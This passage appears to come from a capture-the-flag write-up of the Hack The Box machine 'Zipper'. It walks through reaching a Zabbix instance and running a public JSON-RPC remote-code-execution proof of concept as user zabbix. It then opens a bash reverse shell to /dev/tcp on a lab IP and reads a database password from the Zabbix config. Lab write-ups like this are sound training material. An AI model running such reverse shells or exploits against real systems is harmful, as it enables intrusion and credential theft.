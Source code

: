 ### Apache2 - 80/tcp

Checking out the web server on 80/tcp, appears to be a default installation of Apache2.

![zipper1](/images/zipper1.png)

I couldn't find anything with GoBuster in terms of directories or sub-domains. I wonder if our other exposed port could be a clue... let's try `/zabbix`.

![zipper2](/images/zipper2.png)

## Initial Access

### Zabbix - RCE with API JSON-RPC

![zipper3](/images/zipper3.png)

A possible username, `zapper`. Let's try it on the login screen with the same password.

![zipper4](/images/zipper4.png)

That's a new error... maybe the credentials are valid? Time to start searching for a known exploit on Google. I came across this one: [Zabbix RCE with API JSON-RPC](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/Zabbix/zabbixRceExP.py).  I'll modify the username/password values and give it a shot.  Also, grab the `hostid` by running one of the scripts on a host.

```sh
┌──(pl4stic㉿kali)-[~/htb/zipper]
└─$ python2.7 zabbix-poc.py
[zabbix_cmd]>>:  id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)

[zabbix_cmd]>>:  hostname
308e0d2f0722
```

And let's stabilize the shell:

```sh
[zabbix_cmd]>>:  bash -c 'bash -i >& /dev/tcp/10.10.14.199/4444 0>&1'
```

### Shell as zabbix

Found some interesting files in `/etc/zabbix`

```sh
zabbix@308e0d2f0722:/etc/zabbix$ cat zabbix_server.conf

# This is a configuration file for Zabbix server daemon
# To get more information about Zabbix, visit http://www.zabbix.com

############ GENERAL PARAMETERS #################
[...snip...]
DBName=zabbixdb
DBUser=zabbix
DBPassword=f.YMeMd$pTbpY3-449
```
